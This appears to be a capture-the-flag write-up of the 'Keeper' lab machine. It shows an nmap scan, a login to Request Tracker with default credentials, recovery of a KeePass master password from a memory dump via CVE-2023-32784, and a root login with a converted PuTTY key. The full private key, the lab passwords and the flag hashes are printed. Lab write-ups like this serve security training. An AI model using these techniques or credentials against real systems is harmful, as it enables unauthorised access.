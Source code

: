 *Nmap scan*:

```shell
# Nmap 7.94SVN scan initiated Mon Jan 22 15:32:00 2024 as: nmap -p22,80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 22 15:32:08 2024 -- 1 IP address (1 host up) scanned in 8.01 seconds
```


![](img/keeper1.png)

Add "tickets.keeper.htb" to *hosts* file.

![](img/keeper2.png)

"Best Practical Request Tracker" default credentials is "root:password". Source: [https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword).

![](img/keeper3.png)

One ticket created is found.

![](img/keeper4.png)

On the Lise user profile page, username and password are identified.

![](img/keeper5.png)

I am IN.

![](img/keeper6.png)

![](img/keeper12.png)

***user.txt***: 969abc88fe586dd9892355d9953b6130

In lnorgaard's home directory, a zip file is found.

```shell
lnorgaard@keeper:~$ ls -l
total 85352
-rw-r--r-- 1 root root      87391651 Jan 22 16:38 RT30000.zip
-rw-r----- 1 root lnorgaard       33 Jan 22 15:29 user.txt
lnorgaard@keeper:~$ unzip RT30000.zip -d RT30000
Archive:  RT30000.zip
  inflating: RT30000/KeePassDumpFull.dmp  
 extracting: RT30000/passcodes.kdbx
```

"KeePassDumpFull.dmp" and passcodes.kdbx are downloaded offline with SCP.

```shell
$ file *                  
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
passcodes.kdbx:      Keepass password database 2.x KDBX
```

"KeePassDumpFull.dmp" is a memory dump. Googling "keepass dump exploit", CVE-2023-32784 is discovered.

![](img/keeper7.png)

From NIST, regarding CVE-2023-32784: "*In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. "

To try to dump master password, the following Github's repository is cloned: [https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper). After repository is cloned, the usage is very simple (from Windows host):  `dotnet run PATH_TO_DUMP`.

```shell
dotnet.exe run .\KeePassDumpFull.dmp
[...]
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

![](img/keeper8.png)

Exploit seem to extract a strange string: `●{...}dgrød med fløde`. With a google search it was possible get a meaningful string.

![](img/keeper9.png)

"rødgrød med fløde" string could be the master password. I am in.

![](img/keeper10.png)

Inside database, root's credentials is found.

![](img/keeper11.png)

Root's password, i.e. `F4><3K0nd!`, not working for escalate privilege to root. In the entry notes, however, there is an SSH private key in PuTTY version. The goal then is to convert the SSH PuTTY key to an OpenSSH one. The following discussion followed: [https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux](https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux).

```shell
$ cat key.ppk     
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

```shell
$ puttygen key.ppk -O private-openssh -o id_rsa
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
MO8CC+eqgtvMOqv6oZtixjsV7qevizo8RjTbQNsyd/D9RU32UC8RVU1lCk/LvI7p
5y5NJH5zOPmyfIOzFy6m67bIK+csBegnMbNBLQIDAQABAoIBAQCB0dgBvETt8/UF
NdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6joDni1wZdo7hTpJ5Zjdmz
wxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCihkmyZTZOV9eq1D6P1uB6A
XSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputYf7n24kvL0WlBQThsiLkK
cz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzTVkCew1DZuYnYOGQxHYW6
WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivzUXjcCAviPpmSXB19UG8J
lTpgORyhAoGBAPaR+FID78BKtzThkhVqAKB7VCryJaw7Ebx6gIxbwOGFu8vpgoB8
S+PfF5qFd7GVXBQ5wNc7tOLRBJXaxTDsTvVy+X8TEbOKfqrKndHjIBpXs+Iy0tOA
GSqzgADetwlmklvTUBkHxMEr3VAhkY6zCLf+5ishnWtKwY3UVsr+Z4f1AoGBAK28
/Glmp7Kj7RPumHvDatxtkdT2Iaecl6cYhPPS/OzSFdPcoEOwHnPgtuEzspIsMj2j
gZZjHvjcmsbLP4HO6PU5xzTxSeYkcol2oE+BNlhBGsR4b9Tw3UqxPLQfVfKMdZMQ
a8QL2CGYHHh0Ra8D6xfNtz3jViwtgTcBCHdBu+lZAoGAcj4NvQpf4kt7+T9ubQeR
RMn/pGpPdC5mOFrWBrJYeuV4rrEBq0Br9SefixO98oTOhfyAUfkzBUhtBHW5mcJT
jzv3R55xPCu2JrH8T4wZirsJ+IstzZrzjipe64hFbFCfDXaqDP7hddM6Fm+HPoPL
TV0IDgHkKxsW9PzmPeWD2KUCgYAt2VTHP/b7drUm8G0/JAf8WdIFYFrrT7DZwOe9
LK3glWR7P5rvofe3XtMERU9XseAkUhTtqgTPafBSi+qbiA4EQRYoC5ET8gRj8HFH
6fJ8gdndhWcFy/aqMnGxmx9kXdrdT5UQ7ItB+lFxHEYTdLZC1uAHrgncqLmT2Wrx
heBgKQKBgFViaJLLoCTqL7QNuwWpnezUT7yGuHbDGkHl3JFYdff0xfKGTA7iaIhs
qun2gwBfWeznoZaNULe6Khq/HFS2zk/Gi6qm3GsfZ0ihOu5+yOc636Bspy82JHd3
BE5xsjTZIzI66HH5sX5L7ie7JhBTIO2csFuwgVihqM4M+u7Ss/SL
-----END RSA PRIVATE KEY-----
$ chmod 400 id_rsa
```

It is accessed in SSH with root user and newly generated SSH private key.

![](img/keeper13.png)

![](img/keeper14.png)

***root.txt***: d69a36f66da1d700aa812d3dcf45762b
